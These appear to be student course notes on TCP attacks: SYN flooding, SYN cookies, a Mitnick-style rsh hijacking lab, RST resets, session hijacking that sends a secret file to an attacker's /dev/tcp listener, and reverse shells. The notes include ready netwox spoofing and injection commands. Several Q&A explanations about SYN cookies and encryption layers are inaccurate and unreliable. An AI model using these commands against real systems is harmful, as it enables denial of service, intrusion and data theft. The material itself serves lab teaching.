

# Attacks on TCP Part II

Attacks on TCP Part II

### TCP Server Program

.png>)

Step 1: Create a socket. Same as Client Program

Step 2: Bind to port number.

An application that communicates with others over the network needs to register a port number on its host computer. When a packet arrives, the operating system knows which application the receiver is based on the port number. The server needs to tell the OS which port it is using. This is done via the bind() system call.

.png>)

Step 3: Listen for connections.

* After the socket is set up, TCP programs the call listen() command to wait for connections.
* It tells the system that it is ready to receive connection requests.
* Once a connection request is received, the operating system will go through the TCP Three-Way Handshake to establish the connection.
* The established connection is placed in the queue and waits for the application to take it. The second argument gives the number of connections that can be stored in the queue.

.png>)

Step 4: Accept a connection request.

After the connection is established, an application needs to “accept” the connection before being able to access it. The accept() system call extracts the first connection request from the queue, creates a new socket, and returns the file descriptor referring to the socket.

Step 5: Send and receive data.

Once a connection is established and accepted, both sides can send and receive data using this new socket.

To accept multiple connections:

.png>)

* fork() system call creates a new process by duplicating the calling process
* Upon success, the process ID of the child process is returned in the parent process and 0 in the child process.
* Line ① and Line ② executes child and parent processes respectively.

| Data Transmission.png>) | 
 • Once a connection is established, the OS allocates two buffers at each end, one for sending data (send buffer) and receiving buffer(receive buffer) to prevent exhaustion attacks.

• When an application needs to send data, it places data into the TCP send buffer.
 |
| ---------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

* Each octet in the send buffer has a sequence number field in the header which indicates the sequence of the packets. At the receiver end, these sequence numbers are used to place data in the right position inside the receive buffer.
* Once the data is placed in the receive buffer, they are merged into a single data stream.
* Applications are read from the receive buffer. If no data is available, it typically gets blocked. It gets unblocked when there is enough data to read.
* The receiver informs the sender about receipt of data using acknowledgment, or ACK packets.

### The TCP Header

_**TCP Segment: TCP Header + Data**_

|  | 
• <strong>Source and Destination Port (16bits each):</strong> Specifies port numbers of the sender and the receiver.

• <strong>Sequence Number (32bits):</strong> Specifies the sequence number of the first octet in the TCP segment. If the SYN bit is set, it is the initial sequence number.
 |
| -------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

* **Acknowledgement Number (32bits):** Contains the value of the next sequence number expected by the sender of this segment. Valid only if ACK bit is set.
* **Header Length (4bits):** Length of the TCP header is measured by the number of 32bit words in the header, so we multiply by 4 to get the number of octets n the header.
* **Reserved (6bits):** This field is not used.
* **Code Bits (6bits):** There are six code bits, including SYN, FIN, ACK, RST, PSH, and URG.
* **Window (16bits):** Window advertisements specify the number of octets that the sender of the TCP segment is willing to accept. The purpose of this field is for _**flow control.**_
* **Checksum (16bits):** The checksum is calculated using part of the IP header, TCP header, and TCP data.
* **Urgent Pointer (16bits):** If the URG code bit is set, the first part of the data contains urgent data (does not consume sequence numbers). The Urgent pointer specifies where the urgent data ends and the normal TCP data starts. Urgent data is for priority purposes as they do not wait in line in the receive buffer and will be delivered to the applications requesting it immediately.
* **Options (0-320bits, divisible by 32):** TCP segments can carry a variable length of options which provide a way to deal with the limitations of the original header.

### TCP 3-Way Handshake Protocol

|  | 
<strong>SYN Packet:</strong>

• The client sends a special packet called a SYN packet to the server using a randomly generated number <em>x</em> as its sequence number.

<strong>SYN/ACK Packet:</strong>

• Upon receiving it, the server sends a reply packet back to the client using its own randomly generated number <em>y</em> as its sequence number.

<strong>ACK Packet:</strong>

• Client sends back an ACK packet to the server acknowledging it is ready to receive data hence concluding the handshake.
 |
| -------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

* When the server receives the initial SYN packet, it uses a _**TCB (Transmission Control Block)**_ to store the information about the connection.
* This is called a _**half-open connection**_ as only client/server connections are confirmed.
* The server stores the TCB in a queue that is only for the half-open connection.
* After the servers receives the ACK packet, it will take this TCB out of the queue and store it in a different area.
* If the ACK packet does not arrive, the server will resend the SYN/ACK packet and the TCB will eventually be discarded after a certain period of time.

SYN Flood Attack

| 
<strong>Idea:</strong> To fill the queue storing the half-open connections so that there will be no space to store TCB for any new half-open connections. At this point, the server cannot accept any new incoming SYN packets.

<strong>Steps to Achieve This:</strong> Continuously send numerous SYN packets to the server. This will consume the space in the queue by inserting the TCB record.
<ul><li>Does not complete the third step of the handshake as it will dequeue the TCB record.</li></ul> |  |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |

* When flooding the server with SYN packets, we need to use random source IP addresses otherwise the attacks may be blocked by firewalls.
* The SYN/ACK packets sent by the server may also be dropped because the forged IP address may not be assigned to any particular machine. If it does reach an existing machine, an RST packet will be sent and the TCB will again be dequeued.
* As the second option is les likely to happen, TCB records will stay in the queue indefinitely thus causing a SYN Flooding attack to occur.

Launching a SYN Flood Attack – Pre-Attack

.png>)

TCP States

* LISTEN: waits for TCP connection.
* ESTABLISHED: completed three-way handshake.
* SYN\_RECV: half-open connections.

SYN Flood Attack – Launch the Attack

* **Turn off the SYN Cookie countermeasure by issuing this command:**
  * _$sudo sysctl1 -w net.ipv4.tcp\_syncookies=0_
* **Launch the attack using** netwox
  * seed@Attacker:$ sudo netwox 76 -I 10.0.2.17 – p 23 -s raw
    * ‘23’ is the Telnet server

.png>)

* **Result**

.png>)

SYN Flood Attack – Post-Attack Results

.png>)

* Using the netstat -tna command, we can see that there are a large number of half-open connections on port 23 with random source IP addresses.

.png>)

* Using the top command, we can see that CPU usage is not high on the server. The server is alive and can perform other functions normally but cannot accept telnet connections.

SYN Flood Attack – Launch with Spoofing Code

* We can write our own code to spoof TCP SYN packets as such:

.png>)

Countermeasures: SYN Cookies

* Upon receiving a SYN packet, the server computes a hashed value (denoted as H) derived from the packet’s details, utilizing a secret key exclusively known only to the server. (what does the server have to do to compute a hash value, and how does it do that? How does it know where to get these random values from? Who makes them up?)
* This computed hash (H) is transmitted back to the client as the server’s initial sequence number, and it is referred to as the _**SYN Cookie.**_
* Importantly, the server does not maintain the half-open connection state in its queue. (why is this?)
* Should the client be an attacker, they would not receive the hash (H). (why not? How does the server know or differentiate if a client or host is an attacker, or not?)
* Conversely, if the client is legitimate, it responds with H+1 in the ACK field. (explain why all of a sudden H+1 now and not just H)
* Finally, the server verifies the ACK field’s integrity by recalculating the SYN Cookie (<-recalculates the SYN Cookie’s what?)
* If the client is an attacker, H will not reach the attacker. (how does h know if client is attacker or not?)
* If the client is not an attacker, it sends H+1 in the ACK field. (whats h+1 and how does it know if client is legitimate or attacker? Also what is difference between single H and H+1? Is there an H+3?)
* The server then checks the validity of the ACK field by recalculating the cookie. (how does the server do this? Explain the behind the scenes of how this is accomplished)

Computing the Hash Value

To compute a hash value (H), the server uses specific details from the incoming SYN packet along with a secret key known only to itself. These details typically include:

* The client’s IP address
* The server’s IP address
* The client’s source port
* The server’s destination port
* A timestamp or other variable data to prevent _**replay attacks.**_

The server does not need random values from external sources; instead, it uses deterministic values derived from the SYN packet itself and possibly a timestamp or sequence number generated internally. The secret key is chosen by the server and kept confidential; it is not “made up” by anyone else but is generated securely by the server itself. (what is this generation algorithm?)

SYN Cookie Transmission

The computed hash (H) serves as the initial sequence number sent back to the client in the SYN/ACK packet. It is referred to as the SYN Cookie because it encapsulates connection state information without requiring the server to store this state explicitly. (Why?)

Half-Open Connection State

Not maintaining the half-open connection state in its queue is crucial for mitigating SYN flood attacks. By not allocating resources for each incoming SYN request until the three-way handshake is completed, the server significantly reduces the risk of resource exhaustion (what’s this)

Differentiating Attackers From Legitimate Clients

The server cannot inherently differentiate attackers from legitimate clients upon receiving a SYN packet. The differentiation occurs during the third step of the TCP three-way handshake. If the client responds correctly with H+1 in the ACK field, it indicates that the client received the SYN Cookie and processed it correctly, suggesting legitimacy. Attackers attempting to flood the server with SYN packets typically do not complete the handshake, thus not receiving or responding with H+1.

Significance of H+1

The reason for sending H+1 instead of just H in the ACK field is to confirm that the client has received the SYN Cookie and incremented it by +1, indicating an understanding of the protocol and a willingness to proceed with the connection. This step ensures that the client is actively participating in establishing the connection, rather than being a spoofed IP address used in an attack.

Recalculating the SYN Cookie

Upon receiving the ACK from the client, the server recalculates the expected SYN Cookie based on the original SYN packet details and compares this recalculated value with the received ACK minus one (since the client sends H+1). If they match, it confirms the validity of the client’s response and completes the connection establishment. (does it increment past 1, like is there h2, h4)

Difference Between Hash (H) and Hash +1

Before you ask – no, there isn’t an “H+2,” or “H+3.” In this context, the increment from H to H+1 serves a specific purpose in the protocol to verify the client’s participation. The difference between H and H+1 is purely operational: H is sent by the server to encapsulate connection state without storing it, and H+1 is expected from the client to prove its legitimacy and active participation in establishing the connection.

Behind the Scenes of Recalculating the Cookie

The server recalculates the SYN Cookie by applying the same hashing function to the original packet details (client IP, server IP, dports, timestamp) plus the secret key. It then compares this recalculated hash with the value received in the ACK field minus one. This process verifies that the client has correctly processed the SYN Cookie, ensuring the integrity of the connection establishment process.

**How does the server generate the secret key used for computing the hash?**

The secret key for the SYN cookie is generated using cryptographic algorithms designed for randomness and unpredictability. It is stored in memory and regenerated periodically or at system startup to prevent predictability over long periods. The key’s confidentiality is paramount; thus, access controls and secure storage mechanisms are employed to protect it from unauthorized access or modifications.

**Explain how SYN cookies help prevent DoS**

SYN Cookies and DoS Prevention

SYN cookies help to prevent Denial of Service (DoS) attacks, specifically SYN flood attacks, by altering the traditional TCP three-way handshake process. Normally, a server allocates resources for each incoming SYN packet, waiting for the final ACK to establish the connection. In a SYN flood attack, you overwhelm servers with SYN packets, exhausting server resources. SYN cookies mitigate this by encoding necessary connection information into the SYN/ACK response without allocating resources upfront. Resources are only allocated once the server receives a valid ACK, which includes a hash (SYN cookie) processed by the client, indicating a legitimate request.

**Are there any limitations or drawbacks to using SYN cookies as a countermeasure**

While SYN cookies effectively mitigate SYN flood attacks, they do, however, come with their own set of unique limitations, such as:

* **Limited MSS Options:** They can encode only a limited number of _**Maximum Segment Size (MSS)**_ values, potentially affecting throughput performance.
* **Statelessness:** The lack of connection state until the final ACK can limit functionality in scenarios requiring connection tracking.
* **Timestamp Sensitivity:** Dependence on timestamps requires clock synchronization between client and server, which might not always be feasible. (why not?
* **Vulnerability to Guessing:** There’s a theoretical risk of adversaries guessing the initial sequence number, through this is mitigated by the complexity of the hash function and the secrecy of the server’s key.

**How do SYN cookies compare to other TCP/IP security measures**

SYN cookies are unique in their stateless approach to mitigating SYN flood attacks. Unlike techniques that increase backlog queues or use SYN caches, SYN cookies do not allocate resources upfront, making them highly efficient against resource exhaustion attacks. While firewalls and proxies offer broader protection against various types of malicious traffic, SYN cookies specifically target SYN flood vulnerabilities inherent to the TCP protocol. Each measure has its place in a layered defense strategy, or defense in depth strategy, with SYN cookies offering a specialized solution for SYN flood mitigation.

**Explain more about how the secret key is generated and stored securely:**

Generating the Secret Key for SYN Cookies

The server generates the secret key used for computing the hash in SYN cookies through cryptographic means, ensuring randomness and unpredictability. This key is often generated using secure random number generators available in most modern operating systems. The exact algorithm for generating the key can vary but typically involves cryptographic hash functions and secure random inputs. The key is kept secret and stored securely within the server’s memory during operation, not persisted across reboots to prevent long-term predictability.

**Are there any performance implications of using SYN cookies compared to traditional TCP handshakes?**

Using SYN cookies introduces minimal overhead compared to traditional TCP handshakes since the computation of the hash is relatively lightweight. The primary benefit is resource efficiency under attack conditions, as resources are allocated only to legitimate connections; however, encoding limitations, such as MSS Options, might affect throughput performance in normal operation.

**How does the server handle a situation where the client legitimately sends multiple SYN requests?**

In scenarios where a client legitimately sends multiple SYN requests, the server generates a unique SYN cookie for each request based on the packet details and the current timestamp. Each cookie is independent, allowing the server to handle multiple concurrent connections from the same client without confusion.

**Can SYN Cookies be used in conjunction with other cyberattacks?**

SYN cookies specifically mitigate SYN flood attacks and do not directly prevent other types of cyberattacks; however, they can be a part of broader security strategy, complementing other security measures against various threats.

**Can SYN Cookies be used in conjunction with other security measures?**

SYN cookies can be used alongside other security measures, including firewalls, intrusion detection systems (IDS), and _**rate limiting**_ to perform a comprehensive defense against a wide range of cyber threats. Each measures addresses different vulnerabilities, and together they enhance overall network security.

**Are there any limitations or drawbacks to using SYN Cookies, particularly in high-load environments or against sophisticated attackers?**

In high-load environments or against sophisticated adversaries, SYN cookies remain effective in preventing resource exhaustion from SYN flood attacks; however, limitations such as restricted MSS Options and the complexities of managing stateless connections at scale could impact performance and flexibility. Advanced adversaries might also attempt to exploit these limitations, though the stateless nature of SYN cookies inherently limits the potential damage from such exploits.

**Explain the difference between SYN cookies and SYN cache**

Syn cookies and SYN cache are both mechanisms designed to mitigate SYN flood attacks, but they operate a bit differently. For example:

* **SYN cookies** encode the necessary connection information into the SYN/ACK response without allocating resources upfront. The server only allocates resources _after_ receiving a valid ACK from the client, which includes a hash processed by the client, indicating a legitimate request. SYN cookies do not store connection states on the server-side until the handshake is completed.
* Conversely, **SYN cache** stores only partial connection information in its cache upon receiving a SYN packet. Unlike SYN cookies, SYN cache allocates resources to track the partial connection states. It is less resource-efficient than SYN cookies under heavy attack conditions but may offer more flexibility in handling connections.

**How do SYN cookies work in virtualized environments?**

SYN cookies work similarly in virtualized environment as they do in physical ones. The key aspect is that the server (or the virtual machine acting as a server) generates and validates SYN cookies independently of the underlying hardware. Virtualization adds a layer of abstraction but does not fundamentally change how SYN cookies operate. The virtualized server still computes hash values based on incoming SYN packets and validates them upon receiving ACKs from clients.

**Are there any specific protocols or standards that recommend the use of SYN cookies?**

There isn’t a specific protocol or standard that mandates the use of SYN cookies; however, they are widely recognized as an effective countermeasures against SYN flood attacks. The _**Internet Engineering Task Force (IETF)**_ and other networking communities discuss SYN cookies as recommended practice for mitigating certain types of DoS attacks. Their use is encouraged in environments susceptible to SYN floods, especially where resource conservation is critical.

**What is rate limiting?**

Rate limiting is a technique for controlling network traffic. It sets a limit on how many requests a client can send to a server over a certain period. This helps prevent DoS attacks by ensuring that no single client can overwhelm the server with too many requests in a short time frame.

**What are MSS Options? Are there other options?**

_**Maximum Segment Size (MSS)**_ options refer to the maximum amount of data that can be sent in a single TCP segment. This value is negotiated during the initial handshake between client and server. SYN cookies can encode a limited range of MSS values due to space constraints in the sequence number field. Other options that might be encoded in SYN cookies include _**window scale factors**_ and _**selective acknowledgement permissions**_**,** though these are also subject to similar space limitations.

**Exploiting Limited MSS Options**

An adversary could potentially exploit the limited MSS options by forcing the use of smaller segment sizes, thereby reducing throughput performance; however, this attack vector is mitigated by the fact that SYN cookies are primarily a defense mechanism against resource exhaustion attacks, not a performance optimization tool. The impact on throughput is generally acceptable given the rich security benefits it provides.

**SYN Cookies and TCP Fast Open**

SYN cookies can be used in combination with _**TCP Fast Open (TFO)**_, another TCP enhancement aimed at reducing connection establishment time. TFO allows data to be carried in the SYN packet, enabling faster data transfer. When combined with SYN cookies, initial data transmission can occur without waiting for the full three-way handshake, enhancing performance while maintaining protection against SYN flood attacks.

**Cryptographic Hash Function and Secure Random Input**

The exact cryptographic hash function used for generating SYN cookies can vary, but a common choice is _**HMAC-SHA256,**_ which combines a _**Secure Hash Algorithm (SHA)**_ with a keyed-_**Hash Message Authentication Code (HMAC).**_ The ensures both integrity and authenticity of the SYN cookie.

Secure random inputs for generating the secret key come from cryptographic random number generators provided by the operating system. These generators collect entropy from various hardware events to produce numbers that are unpredictable and statistically random.

**Connection Tracking**

Connection tracking refers to the ability of network devices (like firewalls or routers) to keep track of the state of network connections passing through them. This is crucial for understanding the context of packets beyond individual datagrams, allowing for more sophisticated filtering and security policies.

**Timestamp Sensitivity and Attacks**

Timestamp sensitivity in SYN cookies arises because they often include timestamp information to prevent _**replay attacks;**_ however, synchronizing clocks between clients and servers can be challenging due to network latency and clock drift. Attacks exploiting timestamps could involve replaying old SYN cookies or attempting to desynchronize clocks to invalidate legitimate cookies.

**Why Aren’t SYN Cookies Mandatory?**

* **Compatibility:** Not all systems may support SYN cookies and enabling them universally could lead to compatibility issues.
* **Performance Trade-Offs:** While SYN cookies conserve resources under attack, they may introduce slight overhead or limitations in normal operations, such as restricted MSS Options.
* **Security Policies:** Different environments may have varying security needs and policies, making SYN cookies just one tool among many in a comprehensive defense strategy.

**Cryptographic Means Ensuring Randomness, Uniqueness, and Unpredictability**

Cryptographic means ensure randomness, uniqueness, and unpredictability primarily through the use of cryptographic hash functions and secure random number generators. These tools generate values that are statistically random, making them unpredictable and ensuring that each generated value is unique. Secure random number generators collect entropy from various hardware events to produce numbers that cannot be easily guessed or reproduced. Cryptographic hash functions take input data and produce a fixed-size output, such that even a small change in input produces a significant change in output, enhancing uniqueness and unpredictability.

**Replay Attacks**

A replay attack occurs when an adversary intercepts valid data transmitted between two parties and fraudulently delays or resends it. In the context of SYN cookies, a replay attack could involve capturing a valid SYN cookie and attempting to reuse it to establish unauthorized connections.

**Clock Drift Manipulation**

Clock drift refers to the gradual divergence of a clock’s rate from the reference frequency over time. This can happen due to variations in temperature, power supply voltage, or aging components. An adversary could theoretically manipulate clock drift by altering the environmental conditions around a device or injecting malicious software to tamper with the system’s clock settings; however, in practice, manipulating clock drift to exploit SYN cookies would be challenging due to the security measures in place, such as the use of secure timestamps and the complexities of physically accessing or remotely controlling a target system’s environment.

**Tools Used to Manipulate SYN Cookies and SYN Packets**

Adversaries might use various tools and techniques to attempt manipulation of SYN cookies and SYN packets, including:

* **Packet Sniffers:** To capture network traffic and analyze SYN packets and SYN cookies.
* **Packet Crafters:** To forge SYN packets with manipulated fields, aiming to bypass security checks or exploit vulnerabilities.
* **Network Simulators:** To create controlled environments for testing SYN flood attacks and other DoS attack scenarios.
* **Cryptanalysis Tools:** To attempt cracking the cryptographic hash function used in generating SYN cookies, though this would require significant computational resources and time due to the complexity of modern cryptographic algorithms.

Despite these tools, the design of SYN cookies inherently makes them resistant to manipulation. The use of secret keys known only to the server, combined with secure hashing functions, ensures that even if an attacker captures a SYN cookie, they cannot easily forge a new one without knowing the secret key.

**Kevin Mitnick’s Famous Initial Sequence Number Attack**

**The Kevin Mitnick Attack**

Objective: During this laboratory exercise, we will illustrate the Kevin Mitnick attack, which represents a particular variant of the TCP session hijacking attack. Unlike conventional TCP hijacking, where an ongoing connection between two entities (Victims A and B) is intercepted, the Mitnick attack initiates a TCP connection between A and B beforehand, and subsequently takes control of this established connection. In our demonstration, Kevin Mitnick's method of hijacking remote shell (rsh) connections will be emulated. The ultimate objective for the attacker in this scenario is to create a file named \`/tmp/xyz\` on the victim server's system.

Citations:

How does the Mitnick attack differ from other types of TCP session hijacking attacks?

Explain how the attacker initiates a TCP connection between Victims A and B before hijacking it?

What tools or techniques are typically used to emulate the Mitnick attack during a lab exercise?

Are there any specific vulnerabilities or weaknesses in rsh connections that make them susceptible to the Mitnick attack?

What measures can be taken to prevent or mitigate the risk of the Mitnick attack being successful?

Configuration: Three Linux virtual machines (VMs) are set up for this experiment. VM1 serves as the victim client, VM2 acts as the victim server, and VM3 functions as the attacker. All three VMs are connected within the same network, diverging from the original setup of the Kevin Mitnick attack where the attacker's machine was external to the network. Given advancements in technology, TCP sequence numbers are now much harder to predict due to enhanced security measures. To replicate the attack conditions and ease our experimentation, we hypothetically maintain knowledge of the sequence numbers. In the lab, these sequence numbers will be obtained using Wireshark. Packet spoofing will be executed utilizing "netwox 40". Throughout this documentation, it is assumed that the victim client's IP address is 10.0.2.15, and the victim server's IP address is 10.0.2.10.

Setup Instructions:

Background Information: In remote shell (rsh) operations, two TCP connections are utilized— one for regular communication and another for transmitting error messages. For the primary connection, the client port must be 1023, and the server port must be 514. The secondary connection requires the server port to be 1023, with the client port being flexible; for this exercise, we'll select 9090 as an example.

Procedure:

Preparatory Steps:

Step 1: Install rsh on the client, server, and attacker's machine. Execute the following commands on all three VMs:

\`\`\`bash

sudo apt-get install rsh-redone-client

sudo apt-get install rsh-redone-server

\`\`\`

Step 2: Configure rsh on the victim server machine.

\`\`\`bash

touch .rhosts

echo \[victim client’s IP address] > .rhosts # Replace "\[victim client’s IP address]" with the actual IP

chmod 644 .rhosts

\`\`\`

If configured correctly, running \`rsh \[victim server’s IP] date\` on the victim client machine should display the current date.

Step 3: Simulate the SYN flooding attack.

3.1: On the victim server, execute:

\`\`\`bash

sudo arp -s \[victim client’s IP] \[victim client’s MAC]

\`\`\`

This step is crucial for the server to remember the client's MAC address, facilitating packet delivery to the client.

3.2: Shutdown the victim client VM to simulate a severe SYN flooding attack condition, preventing the client from responding.

Step 4: Start Wireshark on the attacker's VM for packet capture. Perform a sanity check to confirm the absence of \`/tmp/xyz\` on the server, aligning with the lab's objective to create this file.

Attack Execution:

Step 5: Establish the first TCP connection.

5.1: From the attacker's VM, send a spoofed SYN packet to the victim server.

\`\`\`bash

sudo netwox 40 --tcp-syn --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514

\`\`\`

5.2: Note the sequence number \`x\` displayed by Netwox immediately after the SYN packet is sent. In Wireshark, identify the SYN-ACK packet from the victim server to the victim client and note its sequence number \`y\`. Send an ACK packet to complete the TCP 3-way handshake.

\`\`\`bash

sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1

\`\`\`

5.3: Send an ACK packet to the server carrying the desired command:

\`\`\`bash

sudo netwox 40 --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 1023 --tcp-dst 514 --tcp-acknum y+1 --tcp-seqnum x+1 --tcp-data "393039300073656564007365656400746f756368202f746d702f78797a00"

\`\`\`

Note: Step 5.2 and Step 5.3 utilize the same command, differing only in the \`--tcp-data\` parameter.

Step 6: Create the second TCP connection. Following the ACK packet, the server will initiate a SYN packet to establish the second TCP connection. Respond with a fake SYN-ACK packet. Assuming the SYN packet's sequence number is \`z\`, the ACK number in the SYN-ACK packet should be \`z+1\`, and the sequence number can be arbitrary.

\`\`\`bash

sudo netwox 40 --tcp-syn --tcp-ack --ip4-src 10.0.2.15 --ip4-dst 10.0.2.10 --tcp-src 9090 --tcp-dst 1023 --tcp-acknum z+1

\`\`\`

Verification:

Step 7: Check the victim server for the presence of \`/tmp/xyz\`.

Additional Notes:

\- In Netwox 40, \`--tcp-data\` specifies the data to be transferred. For transferring an rsh command "touch /tmp/xyz", the data structure in rsh is \`\[port number]\x00\[uid\_client]\x00\[uid\_server]\x00\[your command]\x00\`. To inject the command "touch /tmp/xyz", the data to be injected is "9090\x00seed\x00seed\x00touch /tmp/xyz\x00", which translates to hexadecimal as \`'393039300073656564007365656400746f756368202f746d702f78797a00'\`.

\- Immediately after Step 1.1, Step 1.2 must be executed promptly to avoid the server resetting the first TCP connection. Similarly, after Step 1.3, Step 2.1 must be initiated quickly to prevent the server from resetting the second TCP connection. Automating these steps with a sniffing-and-spoofing script would streamline the attack process.

\- Alternatively, executing the following commands on the server can delay the reset process:

sudo sysctl -w net.ipv4.tcp\_syn\_retries=20

sudo sysctl -w net.ipv4.tcp\_synack\_retries=20

TCP RST (Reset) Attack

|  | 
<strong>To Disconnect a TCP Session:</strong>
<ul><li>A sends out a “FIN” packet to B.</li><li>B replies with an “ACK” packet. This closes the A-to-B communications channel.</li><li>Now, B sends a “FIN” packet to A and A replies back with “ACK.”</li></ul>
<strong>Using the Reset (RST) Flag:</strong>
<ul><li>One of the parties sends RST packets to immediately break the connection.</li></ul> |
| --------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |

.png>)

**Goal:** To break up a TCP connection between A and B.

**Spoofed RST Packet:** The following fields need to be set correctly:

* Source IP address, Source Port
* Destination IP address, Destination Port
* Sequence Number (within the receiver’s window)

Captured TCP Connection Data

.png>)

**← Data Length**\
**← Sequence #**\
**← Next Sequence #**

**←**

**Steps**

* Use Wireshark on attacker machine, to sniff the ingress/egress traffic.
* Retrieve the destination port 23 (Telnet), Source port number and sequence number.

**TCP Reset (RST) Attack on Telnet Connections**

.png>)

**TCP Reset (RST) Attack on SSH Connections**

.png>)

← **Succeeded!**

**←**

Since encryption occurs at the Network layer, the entire TCP packet, including both the payload and the header, is encrypted. This level of encryption renders activities such as packet sniffing or spoofing virtually impossible, as the content and metadata of the packet are obscured.

However, Secure Shell (SSH) operates at the Transport layer, meaning it encrypts the data carried within the TCP segment but leaves the TCP header itself unencrypted. This distinction is crucial because the TCP header contains critical information for managing the transport connection, such as sequence numbers, acknowledgement numbers, and flags that indicate the type of TCP segment (e.g., SYN, ACK, FIN).

Despite SSH’s encryption at the Transport layer, certain types of attacks can still be effective. For instance, an adversary might exploit the fact that the TCP header remains unencrypted to craft malicious packets, such as those using the Reset (RST) flag, which can disrupt the TCP connection. These attacks leverage the information contained within the TCP header to interfere with the normal operation of the TCP connection, even though the payload data is encrypted.

It’s important to note that while the TCP header may remain unencrypted in protocols like SSH, it’s important that you know the effectiveness of such attacks heavily depends on the specific implementation details, or information you gathered during your reconnaissance, and security measures in place. Nowadays, modern systems often employ additional safeguards to protect against these kinds of exploits, such as strict rate limiting, monitoring for unusual patterns of traffic, and the use of cryptographic hashes to verify the integrity of transmitted data.

TCP Reset (RST) Attack on Streaming Connections

This form of attack shares similarities with previous ones, primarily distinguished by the rapid increase in sequence numbers. Unlike the Telnet attack, where input is manually typed into the terminal, this scenario involves streaming services where data flows rapidly without manual intervention.

.png>)

$ sudo netwox 78 –filter “src host 10.0.2.18”

Using the Netwox 78 tool, we filter and reset each packet originating from the victim machine (10.0.2.18). This means that any request made by the user, such as watching a YouTube video or streaming on Twitch, will encounter an RST packet in response.

Important Caution: Continuously sending RST packets to a server can be flagged as suspicious activity. This behavior may prompt the server to take protective measures against the user, potentially leading to service disruptions or account suspensions.

### TCP Session Hijacking Attack

Goal: To inject data in an established connection.

**Spoofed TCP Packet:** The following fields need to be set correctly:

* Source IP address, Source Port,
* Destination IP address, Destination Port
* Sequence number (within the receiver’s window)

TCP Session Hijacking Attack: Sequence Number

If the receiver has already received some data up to the sequence number x, the next sequence number is x+1. If the spoofed packet uses sequence number as x+𝛿, it becomes out of order.

The data in this packet will be stored in the receiver’s buffer at position x+𝛿, leaving 𝛿 spaces (having no effect). If 𝛿 is large, it may fall out of the boundary.

### Hijacking a Telnet Connection

← **Acknowledgement number**

← **Sequence number**

**←**

← **Data Length**

**←**

← **Destination Port**

**←**

← **Source Port**

**←**

#### Establishing a Telnet Connection and Monitoring Traffic

1. **User Initiates Telnet Connection:** The user starts a Telnet session with the server.
2. **Sniffing Traffic with Wireshark:** On the attacker’s machine, Wireshark is used to monitor the network traffic.
3. **Gathering Necessary Details:** Important details such as the destination port (23 for Telnet), the source port number (46712), and the sequence number are recorded.

#### Deciding on the Command to Execute

* **Executing Arbitrary Commands:** With the ability to hijack a Telnet connection, the attacker can execute any command on the server; however, determining the most effective command to use is crucial as well.
* **Scenario:** **Accessing a Top Secret File:** Suppose there is a confidential file named “secret” located in a user’s account on the server. Simply using the cat command to view the file would result in the output being displayed on the server itself, not on the attacker’s machine.
* **Transferring the Secret File:** To access the secret file from the attacker’s perspective, a TCP server program is launched. This setup allows the secret file to be transferred from the server to the attacker’s machine, enabling them to view its contents.

### Session Hijacking: Stealing the Secret

The cat command prints out the contents of the secret file, but instead of printing it locally, it redirects the output to a file called /dev/tcp/10.0.2.16/9090 (virtual file in /dev folder which contains device files). This invokes a pseudo device which creates a connection with the TCP server listening on port 9090 of 10.0.2.16 and sends data via the connection.

The listening server on the attacker machine will get the content of the file.

Launch the TCP Session Hijacking Attack

### Creating a Reverse Shell

Implementing a reverse shell is a critical step following the successful hijacking of a connection. This technique allows an attacker to execute a shell program, such as /bin/bash, on the compromised server. Through this shell program, the attacker gains the ability to control the server's input/output operations via a TCP connection that extends to their own machine.

Essentially, the reverse shell transforms the server into a remote-controlled environment, enabling the attacker to issue commands as if they were operating directly from the server's console. This method is not only powerful but also a commonly employed strategy in hacking circles due to its efficiency and versatility. It provides a persistent means of accessing the compromised system, allowing for further actions or privilege escalation on the server.

* The best command to run after having hijacked the connection is to run a reverse shell command.
* To run a shell program such as /bin/bash on Server and use input/output devices that can be controlled by the attackers.
* The shell program uses one end of the TCP connection for its input/output and the other end of the connection is controlled by the attacker machine.
* Reverse shell is a shell process running on a remote machine connecting back to the attacker.
* It is a very common technique used in hacking.
